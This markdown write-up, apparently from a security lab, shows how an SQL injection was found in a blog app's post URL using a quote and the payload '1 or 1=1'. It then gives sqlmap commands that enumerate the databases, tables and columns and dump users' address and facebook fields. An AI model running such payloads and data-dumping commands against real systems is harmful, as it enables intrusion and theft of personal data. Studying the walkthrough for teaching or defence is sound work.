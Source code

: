 # SQL injection 

## SQLi in PostURL

After watching the post and saw the parameter on the URL varies by post, should see the post can be from the database query according to `id` out.

![image](https://user-images.githubusercontent.com/63194321/133370013-a70c910b-8a60-4fbd-a680-64603899d327.png)

We will check in this location.

First, we will test by appending a quote character `'` after the parameter

![image](https://user-images.githubusercontent.com/63194321/133370885-897e59e2-d252-4d6b-a149-1edb82826ca4.png)

The return result is an error message. So pretty sure there's an SQLi vulnerability here.

![image](https://user-images.githubusercontent.com/63194321/133371030-37f8fde2-60b3-494e-a859-f70d885e71a9.png)

To be more sure, we will send a more complex payload `1 or 1=1`.

The result returns all the articles in the database. So this is definitely an `In-band SQLi` vulnerability



### Solution

Because we have identified the web has been `In-band SQLi`, we can use sqlmap to attack to get data.

**B1.** Start Sqlmap and enter command to scan for `sqli` vulnerabilities:

`sqlmap -u https://blog-vul.herokuapp.com/post/1 --batch`

![image](https://user-images.githubusercontent.com/63194321/132514620-a0461970-1a66-4020-b964-d29e07edc21d.png)

**B2.** Define a list of databases:

`sqlmap -u https://blog-vul.herokuapp.com/post/1 --batch -dbs`

![image](https://user-images.githubusercontent.com/63194321/132514974-21d6fb4f-a28f-4a49-98d4-b06a6f421684.png)

**B3.** Identify the tables in the database:

`sqlmap -u https://blog-vul.herokuapp.com/post/1 --batch -D public -tables`

![image](https://user-images.githubusercontent.com/63194321/132515143-ab63af90-e875-482c-a97d-260182a9fd1d.png)

**B4.**  Define columns in tables:

`sqlmap -u https://blog-vul.herokuapp.com/post/1 --batch -D public -T blogapp_userprofile -columns`

![image](https://user-images.githubusercontent.com/63194321/132515937-1002ad48-2c16-45fe-a06b-573d4ab3373b.png)


**B5.** Get the address value, facebook link of users.

`sqlmap -u https://blog-vul.herokuapp.com/post/1 --batch -D public -T blogapp_userprofile -C address,facebook --dump`

![image](https://user-images.githubusercontent.com/63194321/132516371-564f7d1e-d631-412c-a24e-2032a255b77e.png)
